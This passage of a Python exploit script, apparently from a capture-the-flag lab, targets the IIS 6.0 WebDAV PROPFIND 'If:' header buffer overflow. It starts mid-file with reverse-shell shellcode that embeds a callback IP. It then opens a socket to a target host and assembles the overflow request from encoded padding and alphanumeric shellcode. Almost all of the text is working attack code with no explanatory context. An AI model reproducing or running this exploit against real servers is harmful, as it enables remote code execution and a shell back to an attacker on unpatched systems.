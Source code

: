 ```
'\xFA\xFF\xFF\xE8\xBD\xFB\xFF\xFF'+struct.pack('16s',"10.10.14.21")+'\x5F\x5E\x5B\xC9\xC3\x64\xA1\x18'+\
'\x00\x00\x00\x8B\x40\x30\x33\xC9\x8B\x40\x0C\x8B\x40\x1C\x8B\x00'+\
'\x8B\x50\x20\x66\x83\x7A\x10\x2E\x74\x06\x41\x83\xF9\x02\x7C\xEE'+\
'\x8B\x40\x08\xC3\x55\x8B\xEC\x53\x56\x57\x8B\x7D\x08\x83\x65\x08'+\
'\x00\x8B\x47\x3C\x8B\x44\x38\x78\x03\xC7\x8B\x70\x20\x03\xF7\x83'+\
'\x78\x18\x00\x76\x2A\x8B\x0E\x03\xCF\x33\xDB\x8A\x11\x84\xD2\x74'+\
'\x0B\x6B\xDB\x21\x0F\xBE\xD2\x03\xDA\x41\xEB\xEF\x3B\x5D\x0C\x74'+\
'\x15\x83\xC6\x04\xFF\x45\x08\x8B\x4D\x08\x3B\x48\x18\x72\xD6\x33'+\
'\xC0\x5F\x5E\x5B\x5D\xC3\x8B\x48\x24\x8B\x55\x08\x8B\x40\x1C\x8D'+\
'\x0C\x51\x0F\xB7\x0C\x39\x8D\x04\x88\x8B\x04\x38\x03\xC7\xEB\xE1'
shellcodelen = len(shellcode)

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
sock.connect(("10.129.85.227",80))
pay='PROPFIND / HTTP/1.1\r\nHost: localhost\r\nContent-Length: %d\r\n'%shellcodelen
pay+='If: <http://localhost/aaaaaaa'
pay+='\xe6\xbd\xa8\xe7\xa1\xa3\xe7\x9d\xa1\xe7\x84\xb3\xe6\xa4\xb6\xe4\x9d\xb2\xe7\xa8\xb9\xe4\xad\xb7\xe4\xbd\xb0\xe7\x95\x93\xe7\xa9\x8f\xe4\xa1\xa8\xe5\x99\xa3\xe6\xb5\x94\xe6\xa1\x85\xe3\xa5\x93\xe5\x81\xac\xe5\x95\xa7\xe6\x9d\xa3\xe3\x8d\xa4\xe4\x98\xb0\xe7\xa1\x85\xe6\xa5\x92\xe5\x90\xb1\xe4\xb1\x98\xe6\xa9\x91\xe7\x89\x81\xe4\x88\xb1\xe7\x80\xb5\xe5\xa1\x90\xe3\x99\xa4\xe6\xb1\x87\xe3\x94\xb9\xe5\x91\xaa\xe5\x80\xb4\xe5\x91\x83\xe7\x9d\x92\xe5\x81\xa1\xe3\x88\xb2\xe6\xb5\x8b\xe6\xb0\xb4\xe3\x89\x87\xe6\x89\x81\xe3\x9d\x8d\xe5\x85\xa1\xe5\xa1\xa2\xe4\x9d\xb3\xe5\x89\x90\xe3\x99\xb0\xe7\x95\x84\xe6\xa1\xaa\xe3\x8d\xb4\xe4\xb9\x8a\xe7\xa1\xab\xe4\xa5\xb6\xe4\xb9\xb3\xe4\xb1\xaa\xe5\x9d\xba\xe6\xbd\xb1\xe5\xa1\x8a\xe3\x88\xb0\xe3\x9d\xae\xe4\xad\x89\xe5\x89\x8d\xe4\xa1\xa3\xe6\xbd\x8c\xe7\x95\x96\xe7\x95\xb5\xe6\x99\xaf\xe7\x99\xa8\xe4\x91\x8d\xe5\x81\xb0\xe7\xa8\xb6\xe6\x89\x8b\xe6\x95\x97\xe7\x95\x90\xe6\xa9\xb2\xe7\xa9\xab\xe7\x9d\xa2\xe7\x99\x98\xe6\x89\x88\xe6\x94\xb1\xe3\x81\x94\xe6\xb1\xb9\xe5\x81\x8a\xe5\x91\xa2\xe5\x80\xb3\xe3\x95\xb7\xe6\xa9\xb7\xe4\x85\x84\xe3\x8c\xb4\xe6\x91\xb6\xe4\xb5\x86\xe5\x99\x94\xe4\x9d\xac\xe6\x95\x83\xe7\x98\xb2\xe7\x89\xb8\xe5\x9d\xa9\xe4\x8c\xb8\xe6\x89\xb2\xe5\xa8\xb0\xe5\xa4\xb8\xe5\x91\x88\xc8\x82\xc8\x82\xe1\x8b\x80\xe6\xa0\x83\xe6\xb1\x84\xe5\x89\x96\xe4\xac\xb7\xe6\xb1\xad\xe4\xbd\x98\xe5\xa1\x9a\xe7\xa5\x90\xe4\xa5\xaa\xe5\xa1\x8f\xe4\xa9\x92\xe4\x85\x90\xe6\x99\x8d\xe1\x8f\x80\xe6\xa0\x83\xe4\xa0\xb4\xe6\x94\xb1\xe6\xbd\x83\xe6\xb9\xa6\xe7\x91\x81\xe4\x8d\xac\xe1\x8f\x80\xe6\xa0\x83\xe5\x8d\x83\xe6\xa9\x81\xe7\x81\x92\xe3\x8c\xb0\xe5\xa1\xa6\xe4\x89\x8c\xe7\x81\x8b\xe6\x8d\x86\xe5\x85\xb3\xe7\xa5\x81\xe7\xa9\x90\xe4\xa9\xac'
pay+='>'
pay+=' (Not <locktoken:write1>) <http://localhost/bbbbbbb'
pay+='\xe7\xa5\x88\xe6\x85\xb5\xe4\xbd\x83\xe6\xbd\xa7\xe6\xad\xaf\xe4\xa1\x85\xe3\x99\x86\xe6\x9d\xb5\xe4\x90\xb3\xe3\xa1\xb1\xe5\x9d\xa5\xe5\xa9\xa2\xe5\x90\xb5\xe5\x99\xa1\xe6\xa5\x92\xe6\xa9\x93\xe5\x85\x97\xe3\xa1\x8e\xe5\xa5\x88\xe6\x8d\x95\xe4\xa5\xb1\xe4\x8d\xa4\xe6\x91\xb2\xe3\x91\xa8\xe4\x9d\x98\xe7\x85\xb9\xe3\x8d\xab\xe6\xad\x95\xe6\xb5\x88\xe5\x81\x8f\xe7\xa9\x86\xe3\x91\xb1\xe6\xbd\x94\xe7\x91\x83\xe5\xa5\x96\xe6\xbd\xaf\xe7\x8d\x81\xe3\x91\x97\xe6\x85\xa8\xe7\xa9\xb2\xe3\x9d\x85\xe4\xb5\x89\xe5\x9d\x8e\xe5\x91\x88\xe4\xb0\xb8\xe3\x99\xba\xe3\x95\xb2\xe6\x89\xa6\xe6\xb9\x83\xe4\xa1\xad\xe3\x95\x88\xe6\x85\xb7\xe4\xb5\x9a\xe6\x85\xb4\xe4\x84\xb3\xe4\x8d\xa5\xe5\x89\xb2\xe6\xb5\xa9\xe3\x99\xb1\xe4\xb9\xa4\xe6\xb8\xb9\xe6\x8d\x93\xe6\xad\xa4\xe5\x85\x86\xe4\xbc\xb0\xe7\xa1\xaf\xe7\x89\x93\xe6\x9d\x90\xe4\x95\x93\xe7\xa9\xa3\xe7\x84\xb9\xe4\xbd\x93\xe4\x91\x96\xe6\xbc\xb6\xe7\x8d\xb9\xe6\xa1\xb7\xe7\xa9\x96\xe6\x85\x8a\xe3\xa5\x85\xe3\x98\xb9\xe6\xb0\xb9\xe4\x94\xb1\xe3\x91\xb2\xe5\x8d\xa5\xe5\xa1\x8a\xe4\x91\x8e\xe7\xa9\x84\xe6\xb0\xb5\xe5\xa9\x96\xe6\x89\x81\xe6\xb9\xb2\xe6\x98\xb1\xe5\xa5\x99\xe5\x90\xb3\xe3\x85\x82\xe5\xa1\xa5\xe5\xa5\x81\xe7\x85\x90\xe3\x80\xb6\xe5\x9d\xb7\xe4\x91\x97\xe5\x8d\xa1\xe1\x8f\x80\xe6\xa0\x83\xe6\xb9\x8f\xe6\xa0\x80\xe6\xb9\x8f\xe6\xa0\x80\xe4\x89\x87\xe7\x99\xaa\xe1\x8f\x80\xe6\xa0\x83\xe4\x89\x97\xe4\xbd\xb4\xe5\xa5\x87\xe5\x88\xb4\xe4\xad\xa6\xe4\xad\x82\xe7\x91\xa4\xe7\xa1\xaf\xe6\x82\x82\xe6\xa0\x81\xe5\x84\xb5\xe7\x89\xba\xe7\x91\xba\xe4\xb5\x87\xe4\x91\x99\xe5\x9d\x97\xeb\x84\x93\xe6\xa0\x80\xe3\x85\xb6\xe6\xb9\xaf\xe2\x93\xa3\xe6\xa0\x81\xe1\x91\xa0\xe6\xa0\x83\xcc\x80\xe7\xbf\xbe\xef\xbf\xbf\xef\xbf\xbf\xe1\x8f\x80\xe6\xa0\x83\xd1\xae\xe6\xa0\x83\xe7\x85\xae\xe7\x91\xb0\xe1\x90\xb4\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81\xe9\x8e\x91\xe6\xa0\x80\xe3\xa4\xb1\xe6\x99\xae\xe4\xa5\x95\xe3\x81\x92\xe5\x91\xab\xe7\x99\xab\xe7\x89\x8a\xe7\xa5\xa1\xe1\x90\x9c\xe6\xa0\x83\xe6\xb8\x85\xe6\xa0\x80\xe7\x9c\xb2\xe7\xa5\xa8\xe4\xb5\xa9\xe3\x99\xac\xe4\x91\xa8\xe4\xb5\xb0\xe8\x89\x86\xe6\xa0\x80\xe4\xa1\xb7\xe3\x89\x93\xe1\xb6\xaa\xe6\xa0\x82\xe6\xbd\xaa\xe4\x8c\xb5\xe1\x8f\xb8\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81'
smallsc='VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A'
pay+=smallsc
```